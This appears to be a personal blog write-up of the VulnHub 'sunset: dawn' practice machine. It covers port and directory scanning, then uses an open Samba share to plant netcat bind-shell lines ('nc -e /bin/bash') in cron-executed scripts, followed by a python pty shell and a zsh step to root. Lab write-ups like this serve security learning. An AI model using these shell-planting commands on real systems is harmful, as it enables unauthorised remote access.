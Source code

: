 ```yaml
---
published: true
layout: post
title: dawn
---
```


This is a machine from [Vuln Hub!](https://www.vulnhub.com/entry/sunset-dawn,341/) It was labeled as an easy machine, but figured I'd still learn a few things!

I start out with a basic nmap scan as usual `nmap -sV -sS dawn`

![nmap]({{ site.baseurl }}/images/dawn/nmap.png)

Right away this tells us it has port 80 open, has a SQL database, and a Samba Share. Now the SQL database should not be an open port and I would be extremely surprised if that wasn't a path towards root.

I decided to go the port 80 route.

![port80]({{ site.baseurl }}/images/dawn/port80.png)

This isn't really giving me much, so I decided to run a dirbuster on the port.

`dirb 192.168.1.165` Realistically it wouldn't be this easy.

![dirb]({{ site.baseurl }}/images/dawn/dirb.png) 

conveniently this tells me there is a log page located at http://dawn/logs

![Logs]({{ site.baseurl }}/images/dawn/logs.png)

All but one of these links were non-accessible. `Management.log` was the only one available to us, so we took a look at it. At first glance it shows us there is cron jobs running, and files that have executable rights by everyone.

![Management]({{ site.baseurl }}/images/dawn/managementlog.png)

After a few failed attempts at getting a working shell, I decide to look back at the management log. Since this is considered an easy machine the command to execute the shell was already there...

I started a netcat on the port in the log `nc 192.168.1.165 1024`

![Shell]({{ site.baseurl }}/images/dawn/usershell.png)

Great! But if we needed to upload our own shell we could have done:


	```echo "nc -e /bin/bash -lvp 1024 &" >> product-control
		echo "nc -e /bin/bash -lvp 1025 &" >> web-control
	```

	
Inside of the Samba share type: `put web-control` and `put product-control` to upload the shells. Then make sure to verify they are being executed by downloading a new version of the Management.log.

![Double Checking]({{ site.baseurl }}/images/dawn/doublechecklog.png)

A quick google search will give you this command to spawn a more complete shell: `python -c 'import pty; pty.spawn("/bin/bash")'`. Once we have this shell I decided to start looking around. After realizing there was no user flag the next step was privilege escelation.

I typed `History` into the shell with this output:

![History Output]({{ site.baseurl }}/images/dawn/bash_history.png)

`zsh` was the only command that looked interesting. A bit of research shows it is a different shell that can be installed. 

I decide to run the command to see what happens. This is the result:

![root]({{ base.url }}/images/dawn/root.png)

All in all, I was extremely surprised that this gave me root. Privilege escelation is what I'm struggling with most right now. There are a lot of writeups online on this box, but for the sake of learning I decided to avoid them in my google searches.



